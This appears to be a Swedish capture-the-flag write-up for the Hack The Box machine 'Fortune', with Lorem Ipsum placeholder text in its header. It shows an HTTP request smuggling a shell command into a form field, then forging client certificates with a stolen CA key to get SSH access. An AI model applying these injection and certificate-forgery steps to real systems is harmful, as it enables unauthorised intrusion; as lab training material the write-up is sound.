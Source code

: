 ```yaml
---
layout: single
title: Fortune - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-06-25
classes: wide
header:
  teaser: /assets/images/htb-writeup-fortune/fortune_logo.png
  teaser_home_page: true
  icon: /assets/images/question-mark-white.png
categories:
  - hackthebox
  - infosec
tags:  
  - unknown os
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-fortune/fortune_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


### USER ###

1. Basic enum shows port 22,80,443. 443 har cert error, 80 anropar en db med fortunes, 22 saknar vi creds för

2. dirb visar inget spännande. Kör en crawl/audit i burp på http://10.10.10.127 och ser att den är vulnerable för os command- och code injection.

3. Skickar POST Request till Repeater och söker mig runt i burken efter cert filer och användare:
POST /select HTTP/1.1
Host: 10.10.10.127
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Referer: http://10.10.10.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

db=fortune|ls -al /home

4. Hittar 3 användare: bob, charlie och nfsuser. Bob har massor av cert-filer vilket känns intressant. Charlie kommer man ej åt så chansar att user.txt finns här. nfsuser har en mer eller mindre tom hemkatalog

5. Plockar hem alla filer från bob så jag har följade filstruktur:
#tree
.
├── bob
│   ├── ca
│   │   ├── certs
│   │   │   └── ca.cert.pem
│   │   ├── index.txt
│   │   ├── index.txt.attr
│   │   ├── intermediate
│   │   │   ├── certs
│   │   │   │   ├── ca-chain.cert.pem
│   │   │   │   ├── fortune.htb.cert.pem
│   │   │   │   ├── intermediate.cert.pem
│   │   │   │   └── intermediate.cert.srl
│   │   │   ├── crlnumber
│   │   │   ├── csr
│   │   │   │   ├── fortune.htb.csr.pem
│   │   │   │   └── intermediate.csr.pem
│   │   │   ├── index.txt
│   │   │   ├── newcerts
│   │   │   │   └── 1000.pem
│   │   │   ├── openssl.cnf
│   │   │   └── private
│   │   │       └── intermediate.key.pem
│   │   ├── newcerts
│   │   │   └── 1000.pem
│   │   ├── openssl.cnf
│   │   ├── serial
│   │   └── serial.old
│   └── dba
│       └── authpf.sql

6. För enkelhet skapa en dir som heter custom-certs utanför dir bob. Skapa custom cert-key samt request för bob och charlie (subj-info tagen från bob/ca/index.txt samt bob/ca/intermediate/index.txt) i nyskapade custom-cert dir'en:
openssl req -newkey rsa:4096 -keyout bob_key.pem -out bob_csr.pem -nodes -days 365 -subj "/C=CA/ST=ON/O=Fortune Co HTB/CN=Fortune Intermediate CA/emailAddress=bob@fortune.htb"

openssl req -newkey rsa:4096 -keyout charlie_key.pem -out charlie_csr.pem -nodes -days 365 -subj "/C=CA/ST=ON/O=Fortune Co HTB/CN=fortune.htb/emailAddress=charlie@fortune.htb"

7. Döp om filerna för enkelhetensskull:
mv bob_key.pem bob.key && mv bob_csr.pem bob.csr
mv charlie_key.pem charlie.key && mv charlie_csr.pem charlie.csr

#ls -al
total 24
drwxr-xr-x 1 root root  108 Jun 26 14:25 .
drwxr-xr-x 1 root root  196 Jun 26 14:10 ..
-rw-r--r-- 1 root root 1716 Jun 26 14:11 bob.csr
-rw------- 1 root root 3272 Jun 26 14:11 bob.key
-rw-r--r-- 1 root root 1704 Jun 26 14:12 charlie.csr
-rw------- 1 root root 3272 Jun 26 14:12 charlie.key

8. Signera certificate requests med intermediate.key (pwd = htb/machines/fortune/custom-certs):
openssl x509 -req -days 365 -in bob.csr -CA ../bob/ca/intermediate/certs/intermediate.cert.pem -CAkey ../bob/ca/intermediate/private/intermediate.key.pem -CAcreateserial -out bob.crt

openssl x509 -req -days 365 -in charlie.csr -CA ../bob/ca/intermediate/certs/intermediate.cert.pem -CAkey ../bob/ca/intermediate/private/intermediate.key.pem -CAcreateserial -out charlie.crt

9. Konvertera .crt till .p12 för att kunna använda dem i Firefox, lämna password blankt (pwd = htb/machines/fortune/custom-certs):
openssl pkcs12 -export -out bob.p12 -inkey bob.key -in bob.crt -certfile ../bob/ca/intermediate/certs/intermediate.cert.pem
openssl pkcs12 -export -out charlie.p12 -inkey charlie.key -in charlie.crt -certfile ../bob/ca/intermediate/certs/intermediate.cert.pem

10. Importera charlie.p12 i Firefox och surfa in på https://10.10.10.127 för att få SSH key pair
options -> preferences -> advanced -> certificates -> view certificates -> your certificates -> import -> select charlie.p12 -> ok

11. Tryck på "generate" och spara ner public key i /root/.ssh/id_rsa.pub (perm 644) samt private i /root/.ssh/id_rsa (perm 600)

12. Logga in som nfsuser med public key.
    ssh nfsuser@10.10.10.127

